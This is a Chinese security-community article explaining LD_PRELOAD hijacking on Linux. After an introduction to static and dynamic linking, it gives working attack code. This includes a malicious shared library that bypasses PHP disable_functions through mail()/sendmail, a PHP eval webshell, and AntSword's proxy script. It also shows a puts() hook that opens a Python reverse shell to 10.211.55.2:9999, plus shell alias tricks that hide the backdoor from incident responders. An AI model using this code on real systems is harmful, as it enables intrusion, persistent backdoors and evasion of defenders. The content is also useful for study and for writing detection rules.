

# LD_PRELOAD 机制在安全领域的攻击面探析 - 先知社区

LD\_PRELOAD 机制在安全领域的攻击面探析

- - -

# 书接上回

前段时间分别对 wordpress、joomla、Drupal 进行了使用和渗透研究，在使用研究过程中发现几乎都出现过与邮件相关的 warning

在 cms 中，与邮件相关的功能如用户注册、找回密码等有一些不同的实现方式，其中使用 mail() 函数就是通过调用 sendmail 命令进行的实现（仅限 unix 系统下）

想起 mail() 函数与 bypass disable\_funciton 的关系遂提笔写完先前未完成的 LD\_PRELOAD 学习笔记

本篇将会从 0 到 1 帮助自己和读者理解 LD\_PRELOAD 劫持的攻击面。

## LD\_PRELOAD

LD\_PRELOAD 本身是 Linux 中的环境变量，用于指定动态库的加载地址。

在 Linux 程序中，一个程序调用时动态库的加载优先级最高，当 LD\_PRELOAD 变量指定的地址为恶意链接库时，该链接库的调用则会造成危害。我们自己编写的库文件需要保证自定义替换的函数与原函数相同，包括类型和参数。

## 链接

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20231122153206046.png)

链接是 gcc 编译流程中的最后一个步骤，目标是将文件与所有附加的目标文件连接起来，最终生成可执行文件。

### 静态链接

静态链接是在程序编译时发生的过程，在这个过程中，程序所需的所有库代码都将被复制到最终的科技型文件中，静态链接有如下特点：

-   自包含：静态链接生成的可执行文件包含了所有必要的库代码，因此不依赖于外部库文件
-   文件大小：静态链接的程序通常体积较大，因为它包含了所有必要的代码
-   性能：由于没有运行时的加载和链接的过程，静态链接的程序启动速度可能更快
-   兼容性：静态链接的程序在不同系统间移植时更加稳定，因为它不依赖于系统的外部库

### 动态链接

动态链接是在程序运行时发生的过程，程序只包含对外部共享库的引用。动态链接有如下特点：

-   共享库：动态链接的程序在运行时加载所需的共享库，多个程序可以共用同一份库代码
-   文件大小：由于不包含实际的库代码，动态链接的程序体积相对较小
-   更新和维护：更新共享库可以影响所有使用该库的程序，便于维护和更新
-   依赖管理：动态链接的程序需要确保运行时环境中有所需的共享库

### 其他链接类型

-   加载时链接 (Load-Time Dynamic Linking)：这是动态链接的一种特殊情况，其中链接过程发生在程序启动时
-   运行时链接 (Run-Time Dynamic Linking)：程序在运行过程中动态加载和链接库，通常通过特点的函数 (如`dlopen`和`dlsym`) 来实现

## 动态链接库

在 Linux 下，动态链接库是以`.so`(Shared Object) 为扩展名的文件。它在许多方面与 windows 中的`.dll`文件类似。

-   `.so`文件通常使用 C 或 C++ 编写，然后通过`gcc`或其他编译器编译为共享库
-   编译时，使用`-shared`和`-fPIC`(Position Independent Code) 选项生成与位置无关的代码

位置无关代码（Position Independent Code，简称 PIC）是一种特殊类型的计算机程序代码，它可以在内存中的任何位置执行，而不需要修改。这对于共享库非常重要，因为共享库可能被多个程序加载到不同的地址空间中。

在不使用位置无关代码的情况下，如果库被加载到与其编译时假设的地址不同的位置，那么所有依赖于特定内存地址都代码都会出错。

### 一个 Demo

#### 编写动态链接库代码

首先，我们创建一个共享库。假设我们有一个函数，它只是简单的打印一条消息：

libmyfunctions.c

```plain
#include <stdio.h>

void myFunction(){
  printf("Hello from the shared library!\n");
}
```

#### 编译共享库

使用 GCC 编译器将这个文件编译为共享库：

```plain
➜  gcc -fPIC -shared -o libmyfunctions.so libmyfunctions.c
➜ ls
libmyfunctions.c  libmyfunctions.so
```

#### 编写主程序

main.c

```plain
void myFunction();

int main(){
  myFunction();
  return 0;
}
```

#### 编译主程序并链接共享库

```plain
➜  gcc -o main main.c -L. -lmyfunctions
➜  ls -l
total 160
drwxr-xr-x  6 may  staff   192B Nov 22 16:14 .
drwxr-xr-x  5 may  staff   160B Nov 22 16:13 ..
-rw-r--r--  1 may  staff    87B Nov 22 16:11 libmyfunctions.c
-rwxr-xr-x  1 may  staff    33K Nov 22 16:11 libmyfunctions.so
-rwxr-xr-x  1 may  staff    33K Nov 22 16:14 main
-rw-r--r--  1 may  staff    62B Nov 22 16:13 main.c
```

这里`-L.`表示在当前目录中查找库，`-lmyfunctions`表示链接名为`libmyfunctions.so`的库，`lib`前缀和`.so`后缀在指定给编译器时被省略。在 Linux 系统中，共享库的命名以`lib`为前缀是约定俗成的做法，这并不是强制性的。当使用 gcc 或其他编译器链接库时，`-l`选项会自动假定库的名称以`lib`开头，并且省略`.so`或`.a`后缀。

#### 运行程序

```plain
➜  ./main
Hello from the shared library!
```

#### so 更新

对 libmyfunctions.c 进行修改并重新编译 so 和主程序进行测试

```plain
#include <stdio.h>

void myFunction(){
  printf("*update Hello from the shared library!\n");
}
```

```plain
➜  gcc -fPIC -shared -o libmyfunctions.so libmyfunctions.c
➜  gcc -o main main.c -L. -lmyfunctions
➜  ./main
*update Hello from the shared library!
```

## 劫持实例

### bypass disable\_functions

bypass disable\_functions 的议题已然是一个耳熟能详的老话，在这里我们不去追溯 disable\_functions 中配置的漏网之鱼利用方式，只聚焦于 LD\_PRELOAD 的利用场景

当 php 程序运行时，PHP 会首先加载 LD\_PRELOAD 环境变量指定的共享库，然后加载 php.ini 配置文件指定的（extension\_dir）共享库

当 LD\_PRELOAD 环境变量被劫持指向了恶意 so，其执行优先级高于 php.ini 中的 disable\_function 参数，所以造成了 disable\_functions 被 bypass

#### 环境概述

PHP 版本：PHP 5.6.11

操作系统：Debian 8

disable\_functions：

```plain
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

#### Cms 里的 LD\_PRELOAD

在 web 渗透中，我们要考虑目标站点使用了哪些可能被劫持的函数，如 php 编写的 cms 中可能使用 mail() 函数实现邮件功能，而 mail() 函数在\*unix 下默认使用 sendmail 命令实现，此时就可以劫持 sendmail 所使用的库函数实现劫持

以 Joomla! 为例，在前面的文章中已经学习了 Joomla! 后台 getshell 的打法，延用当时的环境并配置好 disable\_functions

在模板 error.php 中注入 webshell，路径为/templates/cassiopeia/error.php

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214103646298.png)

发现蚁剑无法正常执行命令

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214111354265.png)

我们知道 Joomla! 中通过 mail() 函数实现了邮件相关功能，那么我们可以劫持 sendmail 命令使用的库函数然后触发 mail() 函数来进行 bypass

使用 readelf -Ws /usr/sbin/sendmail命令来查看sendmail命令使用了哪些库函数

```plain
Symbol table '.dynsym' contains 350 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
     1: 000000000000c360     0 SECTION LOCAL  DEFAULT   11
     2: 00000000000db000     0 SECTION LOCAL  DEFAULT   23
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __fxstat@GLIBC_2.17 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND tzset@GLIBC_2.17 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND socket@GLIBC_2.17 (2)
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND OPENSSL_init_crypto@OPENSSL_1_1_0 (3)
     7: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND srandom@GLIBC_2.17 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND SSL_set_accept_state@OPENSSL_1_1_0 (4)
     9: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND memcpy@GLIBC_2.17 (2)
    10: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND BN_bin2bn@OPENSSL_1_1_0 (3)
    11: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND nis_list@LIBNSL_1.0 (5)
    12: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND SSL_shutdown@OPENSSL_1_1_0 (4)
    13: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND select@GLIBC_2.17 (2)
    14: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sasl_setprop@SASL2 (6)
    15: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getpwnam@GLIBC_2.17 (2)
    16: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fchmod@GLIBC_2.17 (2)
    17: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND fread@GLIBC_2.17 (2)
    18: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strstr@GLIBC_2.17 (2)
    19: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __fdelt_chk@GLIBC_2.17 (2)
    20: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND BIO_free@OPENSSL_1_1_0 (3)
    21: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND getgid@GLIBC_2.17 (2)
    22: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND readlink@GLIBC_2.17 (2)
    23: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sasl_decode64@SASL2 (6)
    24: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND ldap_bind_s@OPENLDAP_2.4_2 (7)
    25: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND regerror@GLIBC_2.17 (2)
    26: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND X509_CRL_free@OPENSSL_1_1_0 (3)
    27: 0000000000000000     0 OBJECT  GLOBAL DEFAULT  UND __environ@GLIBC_2.17 (2)
    28: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sasl_server_start@SASL2 (6)
    ……
```

从中选取一个适合的库函数来进行劫持测试

```plain
65: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND geteuid@GLIBC_2.17 (2)
```

编写恶意 so -> 通过 putenv 来设置 LD\_PRELOAD 变量 -> 触发 mail 函数来调用我们编写的恶意 so

```plain
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("id > /tmp/evil.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

劫持 sendmail 使用的 geteuid 库函数，在其中调用 payload() 函数

payload() 函数执行 id 命令输出到/tmp/evil.txt 进行测试

在一个与目标机器系统环境相近的环境下进行编译

```plain
gcc -c -fPIC evil.c -o evil
gcc -shared evil -o evil.so
```

把 evil.so 进行 base64 编码，利用 webshell，通过 file\_put\_contents 写入恶意 so

```plain
PostData:
1=file_put_contents('/tmp/evil.so',base64_decode(''))
```

写一点代码

```plain
<?php
put_env("LD_PRELOAD=/tmp/evil.so");
mail("mo60@localhost","","");
?>
```

将这段代码 base64 后写入文件随后访问，如果使用命令行在编码时需要注意转义引号

```plain
echo "<?php
putenv(\"LD_PRELOAD=/var/www/hack.so\");
mail(\"a@localhost\",\"\",\"\",\"\",\"\");
?>"|base64
PD9waHAKcHV0ZW52KCJMRF9QUkVMT0FEPS92YXIvd3d3L2hhY2suc28iKTsKbWFpbCgiYUBsb2NhbGhvc3QiLCIiLCIiLCIiLCIiKTsKPz4K
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214131235673.png)

查看/tmp/evil.txt 发现命令已被执行

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214122810820.png)

#### Antsword

为了追求简洁，我们以一个 webshell 作为序章

```plain
<?php
@eval($_REQUEST[1]);
?>
```

通过蚁剑连接 发现 shell 无法执行命令

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212203646876.png)

通过 bypass disable\_functions 插件使用 LD\_PRELOAD 进行 bypass

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212203753966.png)

插件会上传恶意 so 和代理脚本

我们查看一下这个恶意 so 的行为

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240213094725029.png)

这 so 执行了`php -n -S 127.0.0.1:61989 -t /var/www/html`

**\-S 127.0.0.1:\*\***61111\*\* : 新 web 服务监听地址

**\-t /var/www/html/** : 新 http 服务的 Web 根目录，需要指定一个有 webshell 的目录

**\-n** : 表示不使用 php.ini，是这里 bypass disable\_functions 的核心所在

我们再看看代理脚本内容

```plain
function get_client_header(){
    $headers=array();
    foreach($_SERVER as $k=>$v){
        if(strpos($k,'HTTP_')===0){
            $k=strtolower(preg_replace('/^HTTP/', '', $k));
            $k=preg_replace_callback('/_\w/','header_callback',$k);
            $k=preg_replace('/^_/','',$k);
            $k=str_replace('_','-',$k);
            if($k=='Host') continue;
            $headers[]="$k:$v";
        }
    }
    return $headers;
}
function header_callback($str){
    return strtoupper($str[0]);
}
function parseHeader($sResponse){
    list($headerstr,$sResponse)=explode("

",$sResponse, 2);
    $ret=array($headerstr,$sResponse);
    if(preg_match('/^HTTP/1.1 d{3}/', $sResponse)){
        $ret=parseHeader($sResponse);
    }
    return $ret;
}

set_time_limit(120);
$headers=get_client_header();
$host = "127.0.0.1";
$port = 61989;
$errno = '';
$errstr = '';
$timeout = 30;
$url = "/index.php";

if (!empty($_SERVER['QUERY_STRING'])){
    $url .= "?".$_SERVER['QUERY_STRING'];
};

$fp = fsockopen($host, $port, $errno, $errstr, $timeout);
if(!$fp){
    return false;
}

$method = "GET";
$post_data = "";
if($_SERVER['REQUEST_METHOD']=='POST') {
    $method = "POST";
    $post_data = file_get_contents('php://input');
}

$out = $method." ".$url." HTTP/1.1\r\n";
$out .= "Host: ".$host.":".$port."\r\n";
if (!empty($_SERVER['CONTENT_TYPE'])) {
    $out .= "Content-Type: ".$_SERVER['CONTENT_TYPE']."\r\n";
}
$out .= "Content-length:".strlen($post_data)."\r\n";

$out .= implode("\r\n",$headers);
$out .= "\r\n\r\n";
$out .= "".$post_data;

fputs($fp, $out);

$response = '';
while($row=fread($fp, 4096)){
    $response .= $row;
}
fclose($fp);
$pos = strpos($response, "\r\n\r\n");
$response = substr($response, $pos+4);
echo $response;
```

这个脚本把客户端提交的数据转发到了恶意 so 建立的新 web 服务，并接收 response 返回给客户端

由于恶意 so 建立的 web 服务不使用 php.ini，这就绕过了 disable\_functions

我们修改 shell 地址进行连接，此时已经可以正常执行命令

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212220924940.png)

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240212221033389.png)

这种方式在目标机器无 python、perl 的极端环境下很好用

### 后渗透

在后渗透环节中，通过劫持 LD\_PRELOAD 可以实现一些有趣的事情

#### 二进制后门

以劫持 whoami 为例，使用 ltrace 查看它使用了哪些库函数，很容易发现使用了 puts

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214152619832.png)

如果完全使用恶意语句接管 puts 函数可能会对正常运行的应用造成影响

通过库打桩的方式进行拦截 (interposition) 可以更加隐蔽并且不影响正常业务

整体逻辑如下：

-   覆盖 puts 函数并在内部重写
-   把原函数指针赋值给一个变量
-   执行后门代码
-   执行原函数
-   正常返回值

```plain
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
  system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.211.55.2\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");
  result = new_puts(message);
  return result;
}
```

1.  **拦截 `puts` 函数**：通过 `dlsym(RTLD_NEXT, "puts")` 调用，找到原始的 `puts` 函数的地址，并将其保存在 `new_puts` 指针中。`RTLD_NEXT` 参数用于指定，搜索应从调用者之后的下一个库开始，这样可以确保找到的是原始的 `puts` 函数，而不是本拦截函数
2.  **执行后门代码**：在调用原始的 `puts` 函数之前，通过 `system` 函数执行反弹 shell 语句
3.  **调用原始的 `puts` 函数**：最后，使用保存的原始 `puts` 函数指针 `new_puts` 调用原始的 `puts` 函数，以保证原本期望的 `puts` 功能不受影响

编译 so

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214154005892.png)

执行 whoami 反弹 shell 成功

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214160247868.png)

#### 对抗应急响应

随着蓝队应急响应能力在攻防演练中的不断提升，传统的 LD\_PRELOAD 后门已经显得不那么隐匿，那么在这里探讨一下 LD\_PRELOAD 后门的隐匿方式

```plain
-> export LD_PRELOAD=/root/hook.so
-> echo $LD_PRELOAD
/root/hook.so
```

LD\_PRELOAD 本身是\*unix 系统中的环境变量，面对这样高危的环境变量劫持，应急响应的方式也很简单粗暴：

-   echo $LD\_PRELOAD
-   env
-   set
-   export

针对这些能够查看系统环境变量的方式，我们的对抗本质就是让它们在添加后门的前后都能回显一样的内容来掩人耳目

##### echo 对抗

没有添加后门时是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162438525.png)

添加后门后是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162519748.png)

通过 alias 劫持回显，将/root/hook.so 替换为空即可

```plain
alias echo='func(){ echo $* | sed "s!/root/hook.so! !g";};func'
```

这时候通过 echo 输出$LD\_PRELOAD 也无法察觉

##### env 对抗

没有添加后门是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162928776.png)

添加后门后是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162905484.png)

alias 劫持回显，grep -v 就可以了

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163038107.png)

```plain
alias env='func(){ env $* | grep -v "/root/hook.so";};func'
```

##### set 对抗

没有添加后门是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163340611.png)

添加后门后是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163222736.png)

还是使用 alias 劫持回显，然后 grep -v

```plain
alias set='func(){ set $* | grep -v "/root/hook.so";};func'
```

##### export 对抗

没有添加后门是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163734698.png)

添加后门后是这样：

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163840662.png)

老样子 alias+grep -v

```plain
alias export='func(){ export $* | grep -v "/root/hook.so";};func'
```

- - -

##### 善后

我们整体的思路都是通过 alias 劫持命令回显，那么 alias 命令本身就会露馅，所以我们还要对 alias 进行劫持

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214164026089.png)

使用 alias 劫持 alias（？自己打自己）

```plain
alias alias='func(){ alias "$@" | grep -v unalias | grep -v hook.so;};func'
```

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214164144432.png)

既然都是用 alias 进行的劫持，我们当然要避免 unalias，遂劫持 unalias

```plain
alias unalias='func(){ if [ $# != 0 ]; then if [ $* != "echo" ]&&[ $* != "env" ]&&[ $* != "set" ]&&[ $* != "export" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};func'
```

### intersting

#### 当随机不再随机？

Number Guessing Game 的猜数字游戏玩法并不多，游戏规则通常是每轮生成一个固定数字并提供若干次的猜测机会

我们通过二分法来不断缩小正确数字的范围最后定位到精确数字

那么如果这个游戏规则是每次生成一个随机数并且只有一次猜测机会，我们如何赢得这场游戏？

[https://github.com/ProfessionallyEvil/LD\_PRELOAD-rand-Hijack-Example.git](https://github.com/ProfessionallyEvil/LD_PRELOAD-rand-Hijack-Example.git)

通过这个小项目学习 LD\_PRELOAd 劫持 rand 函数

├── LICENSE  
├── Makefile  
├── README.md  
└── src  
├── guessing\_game.c  
└── rand\_hijack.c

克隆下来这个项目后通过 make 进行编译

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214170822921.png)

我们可以发现这个游戏的逻辑是每次生成一个范围在 0-31337 的随机数，并且只有一次猜测机会

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214170919130.png)

\- **若循常理出牌，这场博弈终将落入窠臼，难觅胜机。**

##### debug 模式

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214171324733.png)

##### 劫持

通过 LD\_PRELOAD 劫持，我们可以让游戏生成的随机数不再随机，这个项目的/src/rand\_hijack.c 文件正是用于劫持 rand() 函数的 so

它的实现很简单

通过 ltrace 我们很容易看到这个程序使用了 rand 这个库函数，我们甚至只需要 3 行代码就可以完成 rand 函数的劫持

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214172053061.png)

```plain
#include <stdio.h>

// Our version of rand() to hijack random number generation with.
int rand(void) {
    return 42; // The answer is always 42. It's always 42...
}
```

这个项目的 Makefile 已经帮我们写好了编译这个 so 的语句

```plain
hijack:
    $(CC) $(CFLAGS) -FPIC -shared src/rand_hijack.c -o rand_hijack.so
```

我们在项目根目录进行编译

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214172316759.png)

然后进行 LD\_PRELOAD 劫持

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214172430742.png)

**拨开迷雾，真相逐渐浮出水面。原来，我们巧妙地操控了 rand 库函数，使其如同被施了魔法，永远返回数字 42。这看似不起眼的数字，却成为了通关游戏的密钥，指引我们走向胜利的彼岸。**

[](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214172513767.png)

#### CVE-2017-17562

CVE-2017-17562 是一个远程命令执行漏洞，受影响的 GoAhead 版本为`2.5.0`到`3.6.4`之间。受影响的版本若启用了 CGI 并动态链接了 CGI 程序的话，则可导致远程代码执行。漏洞的原因在于 cgi.c 的 cgiHandler 函数使用了不可信任的 HTTP 请求参数初始化 CGI 脚本的环境，可使用环境变量（LD\_PRELOAD），利用 glibc 动态链接器加载任意程序实现远程代码执行。

**本欲挥毫泼墨，再抒胸臆，然见高人已先下笔，珠玉在前，不胜汗颜。**

**为不重复赘述，推荐各位移步：链接地址：[https://xz.aliyun.com/t/6407](https://xz.aliyun.com/t/6407) ，共赏佳作。**

## 写在最后

一点 Tips：收集自漫流砂（[https://cloud.tencent.com/developer/column/88871）](https://cloud.tencent.com/developer/column/88871%EF%BC%89)

-   使用 readonly 命令设置的环境变量不可修改
-   在有 SUID，SGID 存在的文件是无视 LD\_PRELOAD 的，无法用：LD\_PRELOAD 劫持
-   这些命令的源码 git clone git://git.sv.gnu.org/coreutils
-   man puts 可以获取到 puts 函数的基本信息，其中就包括参数名和参数类型
